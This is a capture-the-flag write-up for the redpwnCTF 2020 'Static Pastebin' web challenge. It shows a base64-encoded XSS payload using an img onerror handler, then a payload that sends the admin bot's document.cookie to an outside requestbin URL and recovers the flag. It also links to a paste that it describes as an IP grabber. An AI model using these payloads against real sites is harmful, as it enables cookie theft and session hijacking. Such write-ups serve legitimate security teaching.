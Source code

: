 # Static Pastebin

So first things first, create a pastebin. When you go to the display, you'll see a url like https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj11YjgyWGIxQzhvcyciPg==

### Disclaimer, that link functions as an IP grabber. Click at your own risk. We at The WinRaRs are not responsible for any harm that clicking on this link will bring.

That looks kinda like base64, and if you base64 decode the thing after https://static-pastebin.2020.redpwnc.tf/paste/# you'll find it decodes to the content of the pastebin! This allows us to easily create pastebin messages.

There's also an admin bot submit form, where we can submit a url, and the admin bot will visit it. 

Rak found that the xss `><img src='' onerror="javascript code">` worked. 

First, we can try a simple redirect. `><img src='' onerror="document.location='requestbinurl'">`. I set up a requestbin for this purpose. Remember: we base64 encode the payload, and append it to the major part of the url.

https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPScnIG9uZXJyb3I9J2RvY3VtZW50LmxvY2F0aW9uPSJodHRwOi8vcmVxdWVzdGJpbi5uZXQvci8xbGZyZnlpMSInPg==, as a sample, works, sending a request to our requestbin. Let's exfiltrate some information. We can use GET parameters to exfiltrate data.

`><img src='' onerror='document.location="http://requestbin.net/r/1lfrfyi1?thing=" + document.cookie'>`

This would redirect the admin to our requestbin, sending the cookies as the "thing" parameter. Base64 encoding and submitting this as a url, a request on the requestbin pops up with the parameters ?thing=flag=flag{54n1t1z4t10n_k1nd4_h4rd}, giving us the flag, 

#### flag{54n1t1z4t10n_k1nd4_h4rd}
